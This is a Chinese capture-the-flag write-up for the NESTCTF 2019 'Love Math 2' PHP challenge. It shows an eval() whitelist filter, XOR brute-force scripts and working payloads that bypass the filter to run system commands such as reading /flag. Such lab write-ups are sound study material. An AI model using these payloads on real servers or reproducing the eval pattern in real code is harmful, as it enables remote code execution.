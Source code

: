 # \[NESTCTF 2019]Love Math 2

## \[NESTCTF 2019]Love Math 2

## 考点

* 根据白名单构造RCE字符串
* 类似于无字符RCE的构造思路

## wp

本题代码如下

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 60) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

[\[CISCN 2019 初赛\]Love Math](ciscn-2019-chu-sai-love-math.md)的白名单和本题对比如下

```
$whitelist1 = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
$whitelist2 = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
```

已知条件:

* 白名单不包含base\_convert和dechex
* c 的长度小于 60
* 其余和[\[CISCN 2019 初赛\]Love Math](ciscn-2019-chu-sai-love-math.md)保持相同

### 第一种方法

本题就使用异或解决

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "<br>";
        }
    }
}
```

得到结果`hexdec 31737 _POST`

最终 payload: GET `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});` POST `pow=system&abs=cat /flag`

### 第二种方法

或者用另一种方式异或

这个正则只是不允许字母前后有数字，可以使用括号分隔数字，再用`.`拼接，再用数字字符串进行异或

然后爆破出异或26个字母的方法，然后删除重复的，分类一下，就可以得到编码表

```php
<?php
$a = array('0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','(',')','$');

$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];

foreach($a as $i){
	foreach($whitelist as $t){
		foreach(str_split($t) as $j){
			$tmp = (string)$i^(string)$j;
			if($tmp === '_'){
				echo "$i^$j=".((string)$i ^ (string)$j). "<br>";
				continue;
			}
			if(ord('a')<=ord($tmp)&&ord($tmp)<=ord('z')){
				echo "$i^$j=".((string)$i ^ (string)$j). "<br>";
				continue;
			}
			if(ord('A')<=ord($tmp)&&ord($tmp)<=ord('Z')){
				echo "$i^$j=".((string)$i ^ (string)$j). "<br>";
				continue;
			}
		}
	}
}

```

部分编码表

```
1^n=_	1^v=G	1^t=E	d^0=T
2^m=_	2^u=G	2^w=E	e^1=T
3^l=_	3^t=G	3^v=E	f^2=T
6^i=_	4^s=G	4^q=E	1^e=T
7^h=_	5^r=G	5^p=E	2^f=T
8^g=_	6^q=G	6^s=E	3^g=T
9^f=_	7^p=G	7^r=E	5^a=T
0^o=_	0^w=G	0^u=E	6^b=T
(^w=_	(^o=G	(^m=E	7^c=T
)^v=_	)^n=G	)^l=E	8^l=T
	$^c=G	$^a=E	9^m=T
			0^d=T
			$^p=T
```

根据如上内容，不难构造出语句

* `(2).(3)^mt_rand` 是 `_G`
* `(1).(5)^tanh` 是 `ET`

最终 payload如下，本地是可以用的，题目好像不行

```
?c=$pi=((2).(3)^mt_rand).((1).(5)^tanh);$$pi{0}($$pi{1})&0=var_dump&1=123
```

## 小结

1. 脚本还能再优化，直接得到指定字符
